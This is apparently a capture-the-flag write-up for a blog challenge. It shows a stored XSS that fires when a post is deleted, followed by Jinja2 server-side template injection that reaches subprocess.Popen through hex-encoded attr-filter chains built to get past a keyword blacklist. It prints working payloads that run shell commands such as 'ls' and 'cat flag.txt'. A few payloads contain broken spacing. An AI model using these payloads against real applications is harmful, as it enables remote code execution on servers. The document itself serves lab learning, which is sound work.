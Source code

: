 # My First Blog
## XSS 
We can enter the 'Title' and 'Content' fields on the post creation page. When a post is created, it is directed to the home page, the title entered in red text at the top of the page is written in this red area and the area where the posts are listed.

When input is given to the title and content areas using `<script>alert(1)</script>`, it is seen that after being redirected to the home page, no Javascript code runs and the entered code remains as a string. After trying many XSS payloads, the first thing I entered was to delete the post with the title `<script>alert(1)</script>`. When I went to the edit tab and deleted the post and redirected it to the home page, it seems that the Javascript code is working. It can be seen that the red warning block at the top of the page where the post title should be written is blank. When you try to delete an ordinary post, you may see that the title of the post should be written in that section.

To summarize, the XSS vulnerability is triggered if we write code that will trigger XSS in the post title and delete the post. But where can we go with XSS? By using the XSS vulnerability, any Javascript code can be written into the 'script' block. If you send a GET request to `ifconfig.me` using the Fetch API, it appears that the sent request runs in the attacker's browser through the client, without going to the server side. So it doesn't seem like XSS will gain us anything.

## SSTI
XSS's little brother is SSTI. So, what happens if a block of code that will trigger SSTI is written in the post title instead of code that will trigger XSS? After all, don't they both enable code to run in HTML? If we write `{{7*7}}` in the post title and delete the post, you can see that forty-nine, which is the answer to seven times seven, is written in the red information block that appears after being directed to the home page. So he had done the math. Neither HTML nor XSS can do this. It's SSTI time.

It can be determined which temrating engine is used by trying the generic SSTI codes, Jinja2. Jinja2, that is, Python, is running on the server. `{{'abc'.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[ If we try 0].strip()}}` the page makes fun of us a little. It is said to be a wildcard-based blacklist that severely restricts the attacker. No problem, Jinja2 filters allow us to run the necessary commands without using these wildcards.

For example:
The `{{'abc'.__class__}}` command is blocked by wildcards.
but this code is created using `attr` and `__class__` string value converted to hex numbers `{{'abc'|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")}}` We don't care much about wildcards if they are used. For more information about the `attr` filter and the filters that will be used in the rest of the solution, [source](https://jinja.palletsprojects.com/en/3.1.x/templates/#list-of-builtin-filters).

 ## Blacklist Bypass
We passed the wildcards a little bit. So what value should we give for `__subclasses__`? The number we need to use in this attack is `{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")| attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\ x5f\x5f")()}}` will be obtained from the list by entering this code. The number found is `{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(YOUR_INDEX_NUMBER)}}` It will be used in the command. In short, we only reached the Python `subprocess.Popen` module. Now it's time to access using this module. Related [article](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f).

`{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f" )|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\ x74\x69\x74\x65\x6d\x5f\x5f")(YOUR_INDEX_NUMBER)('ls',shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(0)}}` `subprocess.Popen` has been called, the next thing to do when each function is called is to open the parentheses and give the arguments. `...redacted...(YOUR_INDEX_NUMBER)("ls",shell=True,stdout=-1)` will be the function content we will use. Next, all that remains is to convert the payload into something we can use as `attr` and hex number.


## Sources
- https://jinja.palletsprojects.com/en/3.1.x/templates/#list-of-builtin-filters
- https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2

